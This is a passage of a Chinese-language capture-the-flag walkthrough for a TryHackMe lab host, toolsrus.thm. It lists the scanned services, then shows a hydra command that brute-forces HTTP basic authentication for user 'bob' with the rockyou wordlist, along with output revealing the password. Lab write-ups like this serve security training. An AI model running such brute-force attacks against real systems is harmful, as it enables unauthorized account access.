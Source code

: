 ![](img/ab66038db294db7f3880f129deb566a1.png)

**图 3**

如果图上的文字难以阅读，我很抱歉，但它确实揭示了目标系统上有趣的服务:

*   端口 22 上的 OpenSSH 服务。
*   端口 80 上的 Apache web 服务(2.4.18 版)。
*   端口 1234 上的 Apache Tomcat 服务(7.0.88 版)。
*   端口 8009 上的 Apache Jserv 服务(1.1 版)。

目标系统似乎运行的是 Ubuntu(T21)，或者至少是其他的 Linux 变种。这证实了子目录`/guidelines`中注释的后半部分，这表明假设有一个名为“bob”的用户用于向其中一个服务进行身份验证更可信。

房间指出“鲍勃”是`/protected`子目录的用户名。为了计算出“bob”的密码，我使用了 hydra([“van Hauser”，n.d.](https://github.com/vanhauser-thc/thc-hydra) )密码破解程序来列举用户名`bob`的不同类型的密码:

```
**└─$ hydra -l bob -P ~/toolsrus/rockyou.txt -s 80 -f toolsrus.thm http-get /protected -V**
```

几秒钟后会产生以下输出:

```
[... snip ...][ATTEMPT] target toolsrus.thm - login "bob" - pass "elizabeth" - 61 of 14344399 [child 12] (0/0)
[ATTEMPT] target toolsrus.thm - login "bob" - pass "hottie" - 62 of 14344399 [child 13] (0/0)
[80][http-get] host: toolsrus.thm   login: bob   password: bubbles
[STATUS] attack finished for toolsrus.thm (valid pair found)[... snip ...]
```
